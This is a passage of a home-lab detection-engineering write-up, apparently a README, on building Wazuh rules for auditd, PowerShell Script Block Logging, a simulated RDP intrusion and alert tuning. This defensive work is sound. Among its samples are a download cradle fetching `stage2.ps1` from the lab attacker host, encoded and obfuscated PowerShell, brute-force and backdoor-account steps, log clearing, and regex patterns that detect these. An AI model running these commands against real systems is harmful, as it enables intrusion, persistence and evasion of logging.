<td><br><sub>No 5715 alert for testuser's login</sub></td>
<td><br><sub>Login at 11:26:28, journald rotation at 11:26:29</sub></td>
</tr>
<tr>
<td><br><sub>auditd installed and running</sub></td>
<td><br><sub>Five audit rules loaded</sub></td>
</tr>
<tr>
<td><br><sub>audit.log localfile block in ossec.conf</sub></td>
<td><br><sub>Logcollector analyzing audit.log</sub></td>
</tr>
<tr>
<td><br><sub>First audit alerts, all level 3</sub></td>
<td><br><sub>Attack repeated from Kali</sub></td>
</tr>
<tr>
<td><br><sub>Sudoers persistence test file</sub></td>
<td><br><sub>Audit alert list: parent IDs, exe, auid, success</sub></td>
</tr>
<tr>
<td><br><sub>Full audit fields for each alert type</sub></td>
<td><br><sub>wazuh-analysisd -t: rules valid</sub></td>
</tr>
<tr>
<td><br><sub>101220 confirmed in alerts.json after the parent-ID fix</sub></td>
<td><br><sub>Noise: 4,341 command alerts, 89% dash + ps</sub></td>
</tr>
<tr>
<td><br><sub>Cleanup: test file and lab user removed</sub></td>
<td><br><sub>Deleting the sudoers file also raises 101220</sub></td>
</tr>
</table>

</details>

### Key takeaways
- A program that stays silent can still be watched at the kernel level. Logging should not depend on the attacker's tool deciding to log.
- `auid` separates the attacker from the admin, but it means "who logged in", not "which program". Services started with sudo inherit the admin's auid.
- Every parent rule ID and field name must come from live events. Here that caught the Rust paths, four extra legitimate readers of `/etc/shadow`, and a missing modify path in 101220.
- More visibility means more noise. The value is in the few high-level rules on top, not in the thousands of level 3 events underneath.

---

## Exercise 16: PowerShell Attacks – Script Block Logging and Encoded Commands

**Goal:** detect the most common attacker tool on Windows. Attackers hide PowerShell code with `-EncodedCommand` (base64), download-and-run one-liners and run-time obfuscation, so the process command line often shows only gibberish. I enabled PowerShell Script Block Logging (Event 4104), which records the code **after** it is decoded, measured what Wazuh's built-in rules really catch, and wrote five custom rules for the gaps.

**MITRE:** T1059.001 PowerShell · T1027.010 Command Obfuscation · T1105 Ingress Tool Transfer · T1140 Deobfuscate/Decode · T1562.002 Disable Windows Event Logging
**Hosts:** SOC-Win11 (victim) · SOC-Wazuh (10.10.10.10, manager) · SOC-Kali (10.10.10.130, web server for the download test)
All payloads were harmless (`Write-Output`, `whoami`, `hostname`).

### 1. Before: proving the gap
A base64 command (`powershell.exe -NoProfile -EncodedCommand VwBy...`) raised built-in rule **92057** (level 12), but the alert showed only the base64 string. The analyst could not see that it ran `whoami` without decoding it by hand, and PowerShell itself was not logging anything.

### 2. Script Block Logging: seeing the decoded code
- Registry policy `HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging` → `EnableScriptBlockLogging = 1` (Windows PowerShell 5.1).
- Agent `ossec.conf`: a `<localfile>` for `Microsoft-Windows-PowerShell/Operational` that keeps only Event 4104 ([`config/powershell-localfile.xml`](config/powershell-localfile.xml)).

Event 4104 now shows the decoded code in plain text: `Write-Output "Exercise16 encoded test"; whoami`.

**Side finding:** the first 4104 alerts were not an attack. They were the Wazuh agent's own SCA scan (`secedit /export ... ResetLockoutCount`) running after the agent restart (rule 91816).

### 3. Investigation: what the built-in rules catch
Before writing any rule I ran three attack tests and recorded what the built-in ruleset did.

| Test | What ran | Built-in result |
|---|---|---|
| A | `-EncodedCommand` (parent powershell.exe) | 92057, level 12 ✅ |
| A | `-e` (parent powershell.exe) | 92057, level 12 ✅ |
| A | `-enc` (parent powershell.exe) | only 92027, level 4 ❌ |
| A | `cmd.exe /c powershell -enc ...` | only 92032, level 3 ❌ |
| B | `IEX (New-Object Net.WebClient).DownloadString(...)` from Kali | only 91837, level 4 (matched "IEX", not the download) |
| B | `Invoke-Expression (... Invoke-WebRequest ...)` | **no alert** ❌ |
| C | `[Convert]::FromBase64String('d2hvYW1p')` | 91809, level 10 ✅ |
| C | `Invoke-Expression $s` | **no alert** ❌ |
| C | `& ('who' + 'ami')` | **no alert** ❌ |
| C | `Invoke-Expression ([char[]](119,104,111,97,109,105) -join '')` | **no alert** ❌ |

Reading the rule files (`0915-win-powershell_rules.xml` and the Sysmon rules) explained every miss:

- **92057** lists the flag spellings `encodedcommand|e|ea|ec|encodeda|encode|en|enco` but **not `enc`**, the most common attacker spelling, and it only fires when the parent is `powershell.exe`.
- **91837** searches for `Invoke-Expresion` (missing an "s") in both its regex and description, so the full `Invoke-Expression` spelling never matches.
- There is **no built-in rule** for download cradles (`DownloadString`, `Net.WebClient`, `Invoke-WebRequest`) or for `[char[]]` / string-concatenation obfuscation.
- **91823** (level 14) matches `(?i)(ComputerName|Cn)` without a word boundary, so it fired on a built-in Windows maintenance script: a false positive for the tuning exercise.
- The PowerShell rules match the **channel**, not Event ID 4104: 91801 (channel) → **91802** (any script block), both level 0. Sysmon Event 1 base rule: **61603**.

### 4. Custom rules

| Rule | Parent | Logic | Level | MITRE |
|---|---|---|---|---|
| 101300 | 61603, 92027, 92032, 92057 | PowerShell image + `-e` / `-ec` / `-en*` flag + 20+ base64 characters | 12 | T1059.001, T1027.010 |
| 101310 | 91802, 91837 | script block contains a download method | 12 | T1059.001, T1105 |
| 101315 | 91802 | script block contains the full `Invoke-Expression` | 8 | T1059.001 |
| 101320 | 91802, 91809, 91837 | `FromBase64String`, `[char[]]`, `-bxor` or string concatenation | 10 | T1027.010, T1140 |
| 101330 | 91802 | Script Block Logging set to 0 / `$false`, `reg ... /d 0` or the key removed | 12 | T1562.002 |

```xml
<group name="local,windows,powershell,">

  <rule id="101300" level="12">
    <if_sid>61603, 92027, 92032, 92057</if_sid>
    <field name="win.eventdata.image" type="pcre2">(?i)\\(powershell|pwsh)\.exe$</field>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)\s[-/](e|ec|en[a-z]*)\s+[A-Za-z0-9+/=]{20,}</field>
    <description>Encoded PowerShell command started by $(win.eventdata.user) (parent: $(win.eventdata.parentImage))</description>
    <mitre>
      <id>T1059.001</id>
      <id>T1027.010</id>
    </mitre>
  </rule>

  <rule id="101310" level="12">
    <if_sid>91802, 91837</if_sid>
    <field name="win.eventdata.scriptBlockText" type="pcre2">(?i)(downloadstring|downloadfile|downloaddata|net\.webclient|invoke-webrequest|\biwr\b|start-bitstransfer)</field>
    <description>PowerShell script block downloads content (possible download cradle) on $(win.system.computer)</description>
    <mitre>
      <id>T1059.001</id>
      <id>T1105</id>
    </mitre>
  </rule>

  <rule id="101320" level="10">
    <if_sid>91802, 91809, 91837</if_sid>
    <field name="win.eventdata.scriptBlockText" type="pcre2">(?i)(frombase64string|\[char\[\]\]|-bxor|\(\s*['"][\w-]+['"]\s*\+\s*['"])</field>
    <description>PowerShell script block decodes or rebuilds code at run time on $(win.system.computer)</description>
    <mitre>
      <id>T1027.010</id>
      <id>T1140</id>
    </mitre>
  </rule>

  <rule id="101315" level="8">
    <if_sid>91802</if_sid>
    <field name="win.eventdata.scriptBlockText" type="pcre2">(?i)invoke-expression</field>
    <description>PowerShell script block runs a string as code with Invoke-Expression on $(win.system.computer) (full spelling missed by built-in 91837)</description>
    <mitre>
      <id>T1059.001</id>
    </mitre>
  </rule>

</group>

<group name="local,windows,powershell,defense_evasion,">

  <rule id="101330" level="12">
    <if_sid>91802</if_sid>
    <field name="win.eventdata.scriptBlockText" type="pcre2">(?i)(enablescriptblocklogging\s+(-value\s+)?(0|\$false)\b|enablescriptblocklogging.{0,40}/d\s+0\b|remove-item(property)?\b.*scriptblocklogging)</field>
    <description>PowerShell Script Block Logging disabled or removed on $(win.system.computer)</description>
    <mitre>
      <id>T1562.002</id>
    </mitre>
  </rule>

</group>
```

**Design notes**
- **Sibling rules compete.** When two children of the same parent match one event, Wazuh reports only one. Each custom rule is therefore also a child of the built-in rule that could match first (92027/92032/92057, 91809/91837), so it is still evaluated when the built-in rule wins.
- **101300** needs 20+ base64 characters after the flag, so a normal flag starting with "e" (for example `-ExecutionPolicy`) does not match. PowerShell accepts any short form of `-EncodedCommand`, so `en[a-z]*` covers `-en`, `-enc`, `-encod` and the full word.
- **101310 to 101330** read the decoded script block (4104), so base64 on the command line does not hide them.
- **Production caveat:** real admin scripts also use `Invoke-WebRequest` and `Invoke-Expression`. In a company these rules would exclude known script paths or signed scripts.

### 5. Result

| Check | Result |
|---|---|
| Test A: all four encoded launches, **including the `cmd.exe` parent** | 101300, level 12 (4 / 4) |
| Test B: both download cradles | 101310, level 12 (2 / 2) |
| Test C: `FromBase64String`, `('who' + 'ami')`, `[char[]]` | 101320, level 10 (3 / 3) |
| Test C: `Invoke-Expression $s` | 101315, level 8 (1 / 1) |
| Negative test: `Get-Process`, `Get-Date` | **no** custom alert |

The 101300 alert now names the user and parent process: *Encoded PowerShell command started by DESKTOP-RUN6GAL\socadmin (parent: C:\Windows\System32\cmd.exe)*, the same launch the built-in rule scored at level 3. When one script block matched two custom rules, the higher-level rule was reported (101310 and 101320 over 101315), as designed.

**Defense evasion (101330):** an attacker who knows about 4104 turns it off first. Setting `EnableScriptBlockLogging` to 0 produced **no Sysmon Event 13** (the Sysmon config does not watch this key). But PowerShell reads the setting only when a process starts, so the running session kept logging and the `Set-ItemProperty ... -Value 0` command recorded itself in 4104. Rule 101330 fired once (level 12, T1562.002) and stayed silent when logging was switched back on.

### 6. Noise: an honest finding
On the test day the endpoint wrote **243** Event 4104 records; only **22** became alerts (about 9%). The rest, such as PowerShell's own `prompt` blocks, matched only level 0 rules. Of the 22 alerts, **12 were noise** from three sources: the Wazuh agent's own SCA scan (91816, 8 alerts), the 91823 false positive (2) and Windows maintenance scripts (91820, 2). All three are on the tuning list for Exercise 18.

### Screenshots

<table>
<tr>
<td><br><sub>Before: the built-in alert shows only base64</sub></td>
<td><br><sub>After: Event 4104 shows the decoded code</sub></td>
</tr>
<tr>
<td><br><sub>What the built-in rules caught (and missed)</sub></td>
<td><br><sub>Typo in built-in rule 91837: "Invoke-Expresion"</sub></td>
</tr>
<tr>
<td><br><sub>Custom rules firing: 10 / 10</sub></td>
<td><br><sub>MITRE view: T1059.001, T1027.010, T1105, T1140</sub></td>
</tr>
<tr>
<td><br><sub>101300: cmd.exe parent now level 12</sub></td>
<td><br><sub>101330: Script Block Logging turned off</sub></td>
</tr>
</table>

<details>
<summary>More screenshots</summary>

<table>
<tr>
<td><br><sub>Manager rules backup, Exercise 14 responses still disabled</sub></td>
<td><br><sub>Agent configuration backup</sub></td>
</tr>
<tr>
<td><br><sub>Before: Script Block Logging off, PowerShell log not collected</sub></td>
<td><br><sub>Harmless encoded test command</sub></td>
</tr>
<tr>
<td><br><sub>Built-in 92057: command line and parent</sub></td>
<td><br><sub>Script Block Logging enabled</sub></td>
</tr>
<tr>
<td><br><sub>Agent localfile for Event 4104</sub></td>
<td><br><sub>Agent reading the PowerShell channel</sub></td>
</tr>
<tr>
<td><br><sub>First 4104 alerts in Wazuh</sub></td>
<td><br><sub>They were the Wazuh agent's own SCA scan</sub></td>
</tr>
<tr>
<td><br><sub>PowerShell parent rules 91801 / 91802 and 91809</sub></td>
<td><br><sub>No built-in download-cradle rule</sub></td>
</tr>
<tr>
<td><br><sub>92057 without "enc", 91823 with an unanchored "Cn"</sub></td>
<td><br><sub>Test A: encoded command spellings and cmd.exe parent</sub></td>
</tr>
<tr>
<td><br><sub>Test B: Kali web server log</sub></td>
<td><br><sub>Test B: download cradle output</sub></td>
</tr>
<tr>
<td><br><sub>Test C: decoding and obfuscation</sub></td>
<td><br><sub>Rules added and validated</sub></td>
</tr>
<tr>
<td><br><sub>101310 alert details</sub></td>
<td><br><sub>101320 alert details</sub></td>
</tr>
<tr>
<td><br><sub>No Sysmon Event 13 for the registry change</sub></td>
<td><br><sub>4104 recorded the disabling command itself</sub></td>
</tr>
<tr>
<td><br><sub>Rule 101330 validated</sub></td>
<td><br><sub>Noise: 22 alerts by rule and script</sub></td>
</tr>
<tr>
<td><br><sub>Final state: logging on, 243 script blocks today</sub></td>
<td></td>
</tr>
</table>

</details>

### Key takeaways
- Command-line logging cannot see inside encoded PowerShell. Script Block Logging records the code after decoding, which is what an analyst needs.
- A built-in rule existing is not the same as coverage. Testing every spelling and launch path found a missing `enc` in 92057, a typo in 91837 and no rule at all for download cradles.
- Disabling logging is not silent: a running PowerShell session keeps logging, so the disabling command records itself.
- Every new log source adds noise, even from the security tool itself. Measure it before trusting the alert count.

---

## Exercise 17: Full Attack Chain Investigation and Incident Report

**Goal:** stop testing one technique at a time. One attacker ran a complete intrusion, from password guessing to log clearing, and I investigated it as a SOC analyst from the SIEM alone, measured what was detected, closed the gaps and wrote an incident report.

**MITRE:** T1046 · T1110.001 · T1021.001 · T1078 · T1033 · T1087.001 · T1059.001 · T1027.010 · T1105 · T1547.001 · T1053.005 · T1136.001 · T1098 · T1562.002 · T1070.001
**Hosts:** SOC-Kali (10.10.10.130, attacker) · SOC-Win11 (victim) · SOC-Wazuh (10.10.10.10)
**Report:** 📄 [**Incident Report IR-01**](docs/incident-report-01.md)

### 1. The attack (14 minutes)

A helpdesk account (`rdptest`) had a guessable password, local administrator rights and RDP access. All payloads were harmless.

| Local time | Step |
|---|---|
| 09:45 | `nmap` finds RDP (3389) open |
| 09:47 | `nxc rdp` guesses the password in 4 attempts (`Pwn3d!`), `xfreerdp3` opens a desktop |
| 09:51 | Discovery: `whoami`, `net user`, `net localgroup Administrators`, `ipconfig`, `systeminfo` |
| 09:52 | Hidden encoded PowerShell (`-nop -w hidden -enc`) |
| 09:56 | `IEX ... DownloadString('http://10.10.10.130:8000/stage2.ps1')` |
| 09:57 | Persistence: Run key, scheduled task, backdoor admin `svc-update` |
| 09:58 | Script Block Logging turned off, Security log cleared, logoff |

### 2. Investigation: what the SIEM showed

In the 20-minute window Wazuh raised **105 alerts of level 5+**; **71 (68%) were noise** (Windows Update DLL alerts, Edge, Windows Search). Grouping by rule turned them into 24 lines and the attack story became readable.

| Result | Steps |
|---|---|
| ✅ Level 10+ (9 of 15) | whoami, encoded PowerShell, download cradle, Run key, task, backdoor user, Administrators change, logging off, log cleared |
| ⚠️ Only level 5–6 (2) | **the password guessing and the RDP login: the attacker's way in** |
| ❌ Not detected (4) | port scan, `net user`, `ipconfig` / `systeminfo`, the dropped file |

**Findings**

- **Low-and-slow brute force was invisible.** Built-in 60204 needs `MS_FREQ` = 8 failures in 240 s. Four guesses stayed below it, so my Exercise 13 rule 101010 (built on 60204) never fired. The successful logon (92652) arrived **in the same second** as the failures, but only at level 6.
- **A rule that only knew one tool.** My Exercise 6 rule 100300 was a child of 92302, which only matches `reg.exe`. The attacker used PowerShell: Sysmon logged the Run key (Event 13, `T1060,RunKey`) but no custom alert fired. It was caught only by 91844, a PowerShell 4104 rule, so one layer was hiding the gap in another.
- **The only level 15 alerts were a false positive:** `msedge.exe` unpacking a DLL into the new profile's Temp folder (this also explained an unknown 92213 alert from Exercise 8).
- **Local evidence was destroyed twice.** The attacker cleared the Security log; then File System auditing refilled the 20 MB log with 25,668 events in ~18 minutes and overwrote even the "log cleared" event. **Wazuh still had every 4625, 4624, 4720 and 4732.**
- **Clock skew:** the endpoint was ~37 s ahead of the manager and Kali, so the timeline uses manager time.

### 3. Closing the gaps

```xml
<!-- 100300 fixed: any process, Run / RunOnce only (not RunNotification) -->
<rule id="100300" level="12">
<if_sid>92300, 92302</if_sid>
<field name="win.eventdata.targetObject" type="pcre2">(?i)CurrentVersion\\+Run(Once)?\\+</field>
<description>Custom SOC rule: Run key modified - possible persistence</description>
<mitre>
<id>T1547.001</id>
</mitre>
</rule>

<!-- Exercise 17: RDP login after a few failed logons + incident correlation -->
<group name="local,windows,authentication,">

  <rule id="101020" level="12" timeframe="300">
    <if_sid>101000</if_sid>
    <if_matched_sid>60122</if_matched_sid>
    <same_field>win.eventdata.ipAddress</same_field>
    <description>RDP logon by $(win.eventdata.targetUserName) from $(win.eventdata.ipAddress) after failed logons from the same IP (below the 8-failure threshold of 60204)</description>
    <mitre><id>T1110.001</id><id>T1021.001</id><id>T1078</id></mitre>
    <group>authentication_success,rdp_bruteforce_success,</group>
  </rule>

</group>

<group name="local,windows,correlation,">

  <rule id="101400" level="15" timeframe="3600">
    <if_sid>100100, 100300, 100400, 91844</if_sid>
    <if_matched_group>rdp_bruteforce_success</if_matched_group>
    <description>Incident: persistence created within 1 hour of a successful RDP password-guessing login on $(win.system.computer)</description>
    <mitre><id>T1110.001</id><id>T1547.001</id><id>T1053.005</id><id>T1136.001</id></mitre>
  </rule>

</group>
```

Rule 101010 was also tagged `rdp_bruteforce_success`, so 101400 correlates with either brute-force rule.

**Design notes**
- **101020** catches "failure followed by success" instead of counting failures, so it is not blind below a threshold. In a real network it would need an allow-list for users who simply mistype once.
- **100300's** regex now requires a backslash after `Run` / `RunOnce`: the parent rule 92300 also matches `RunNotification`, which `sihost.exe` writes at every logon.
- **101400** turns several level 12 alerts into one level 15 incident. With many endpoints it would also need a same-host condition.

### 4. Result

| Test | Result |
|---|---|
| Negative: `socadmin` creates a Run key with PowerShell, no brute force | **100300** (L12) fired (fix works); **no** 101400 |
| Re-attack: 4 guesses + RDP login | **101020** (L12) ×2 |
| Re-attack: Run key in the RDP session | **101400** (L15) ×2 "Incident: persistence created within 1 hour of a successful RDP password-guessing login" |

The same four-guess intrusion that first produced level 5–6 alerts for its entry point now produces a level 12 login alert and a level 15 incident. Containment, eradication and the full timeline are in the [incident report](docs/incident-report-01.md).

### Screenshots

<table>
<tr>
<td><br><sub>First look: 16 high alerts, no brute-force alert</sub></td>
<td><br><sub>105 alerts grouped by rule: the attack story</sub></td>
</tr>
<tr>
<td><br><sub>4 failures (L5) and the RDP login (L6): no 60204 / 101010</sub></td>
<td><br><sub>Why: 60204 needs MS_FREQ = 8 failures in 240 s</sub></td>
</tr>
<tr>
<td><br><sub>Endpoint: Security log full (20 MB), oldest event 10:09</sub></td>
<td><br><sub>SIEM: every logon and account change still there</sub></td>
</tr>
<tr>
<td><br><sub>MITRE view of the intrusion</sub></td>
<td><br><sub>After the fix: 101020 (L12) and incident 101400 (L15)</sub></td>
</tr>
</table>

<details>
<summary>More screenshots</summary>

<table>
<tr>
<td><br><sub>Health check: services, logging, audit policy, lockout 10</sub></td>
<td><br><sub>Rules backup, Exercise 14 responses still disabled</sub></td>
</tr>
<tr>
<td><br><sub>Root cause: weak helpdesk account with admin rights and RDP</sub></td>
<td><br><sub>Attacker preparation on Kali</sub></td>
</tr>
<tr>
<td><br><sub>Port scan: 135, 445, 3389 open</sub></td>
<td><br><sub>Password guessed in 4 attempts (Pwn3d!)</sub></td>
</tr>
<tr>
<td><br><sub>RDP desktop as rdptest, elevated PowerShell</sub></td>
<td><br><sub>Discovery commands</sub></td>
</tr>
<tr>
<td><br><sub>Download cradle runs stage2.ps1</sub></td>
<td><br><sub>Kali web server: GET /stage2.ps1</sub></td>
</tr>
<tr>
<td><br><sub>Persistence: Run key, task, backdoor admin</sub></td>
<td><br><sub>Logging off and Security log cleared</sub></td>
</tr>
<tr>
<td><br><sub>Level 15 92213 = Edge unpacker DLL (false positive)</sub></td>
<td><br><sub>No Sysmon 13 alert at the time of the Run key</sub></td>
</tr>
<tr>
<td><br><sub>But Sysmon did log it (Event 13, T1060,RunKey)</sub></td>
<td><br><sub>92302 matches reg.exe only; 91844 is a 4104 rule</sub></td>
</tr>
<tr>
<td><br><sub>92300: the Sysmon 13 Run key base rule (any process)</sub></td>
<td><br><sub>Rules patched and validated</sub></td>
</tr>
<tr>
<td><br><sub>Negative test: 100300 fires, no incident</sub></td>
<td><br><sub>Containment: accounts disabled, RDP off</sub></td>
</tr>
<tr>
<td><br><sub>Eradication verified, logging restored</sub></td>
<td></td>
</tr>
</table>

</details>

### Key takeaways
- A frequency threshold is a promise to ignore anything below it. "Failure followed by success" catches the patient attacker.
- Test every rule with more than one tool: one detection layer can silently hide a gap in another.
- The highest severity alert was a false positive; the attacker's entry was level 5–6. Severity is not priority.
- Local logs disappear: cleared by the attacker, then overwritten by normal activity. The SIEM copy is the evidence.

---

## Exercise 18: Alert Tuning – Less Noise Without Blind Spots

**Goal:** Exercises 15 to 17 left a list of noisy and misleading alerts: in the Exercise 17 intrusion, 68% of alerts were noise and the only level 15 alerts were a false positive. This exercise works through that list as a SOC engineer would: measure the noise, investigate each source, tune it with the narrowest possible rule, **prove** the real detection still fires, then measure again.

**Golden rule:** never silence a rule ID. Silence or lower **one exact pattern** as a child rule, and prove with a negative test that the parent still fires for anything else.

**Hosts:** SOC-Win11 (endpoint) · SOC-Wazuh (10.10.10.10, manager and auditd target) · SOC-Kali (10.10.10.130, SSH test)
**Full method, every rule and its proof:** 🎚️ [docs/04-tuning.md](docs/04-tuning.md)

### 18.1 Baseline: what an idle hour looks like

Same start each time (reboot the endpoint, log in, open Edge and File Explorer once, then leave every VM idle for 60 minutes), counted from `alerts.json` with the same script ([evidence](docs/evidence/)).

| Before (13 Nov, 13:45–14:47 UTC) | Count |
|---|---|
| **Total / level 10+** | **58 / 1** |
| 92219 "DLL search order hijack" (Windows Update) | 28 (48%) |
| 60642 Software protection scheduled | 9 |
| 80792 auditd command: `tee` (my own commands) | 6 |
| 92058 AppCompat database (the only level 10+) | 1 |

### 18.2 Windows Sysmon noise

| Alert | Investigation (live alert, not the guide) | Tuning |
|---|---|---|
| 92219 ×28 | `svchost.exe` writing Windows Update DLLs (`UpdateAgent.dll`, `wcp.dll`, `dpx.dll`…) into `SoftwareDistribution\Download\...\Metadata` | 101500, level 0 |
| 92217 ×1 | `svchost.exe` writing a Defender definition patch (`AM_Delta_Patch_*.exe`) to `SoftwareDistribution\Download\Install` | 101510, level 0 |
| 92213 (L15, Exercise 17) | `msedge.exe` unpacking its own component into Temp | 101520, level 0 |

- The guide's rule used `signed` / `signature` fields. **They do not exist on Sysmon Event 11** (confirmed in the live JSON), so the rule matches the process and the folder instead.
- **Negative test:** PowerShell dropping `C:\Windows\ex18-negtest.dll` still alerted (92203, level 6). Unexpected DLL creation is still detected.

### 18.3 PowerShell 4104 noise

- **91823 (level 14) had a broken regex:** `(ComputerName|Cn)` matched "cn" inside any word. A script block containing *"acne cream, cnc machine"* raised a level 14 "remote code execution" alert. Overwrote the built-in rule (`overwrite="yes"`, parent, options and MITRE kept identical) with `-(ComputerName|Cn)\b`. Result: the "acne" text no longer fires; `Invoke-Command -ComputerName localhost` still fires at level 14.
- **91816:** the Wazuh agent's own SCA scan raised 8 alerts at every agent restart. 101530 matches only that exact `secedit` line (anchored `^...$`). After a restart: 0.

### 18.4 Severity fixes

| Rule | Was | Now | Proof |
|---|---|---|---|
| 101540 (child of 61632) | Every logon: `smss.exe` "suspicious process", **level 12** | level 3 | sign out / in → 101540 L3, no 61632 |
| 101550 (child of 506) | Wazuh agent stopped, **level 3** | **level 12**, T1562.001 | stop/start the agent service → 101550 L12 |

The first version of 101540 never matched: the live event has **no `parentImage` field**, and the command line continues after the two session IDs (`... 00000104 000000cc winlogon.exe {GUID}`). Rewritten from the real values.

### 18.5 Linux: auditd noise and the journald question

**auditd.** Exercise 15 audited every `execve` by a logged-in user, so every `ls`, `cat` and `tee` became an alert. The audit rules now watch only **sudo, su, bash, curl, wget, nc and python3**, by their real paths ([config/auditd-wazuh-lab.rules](config/auditd-wazuh-lab.rules)). The `/etc/shadow` and sudoers watches were not touched.

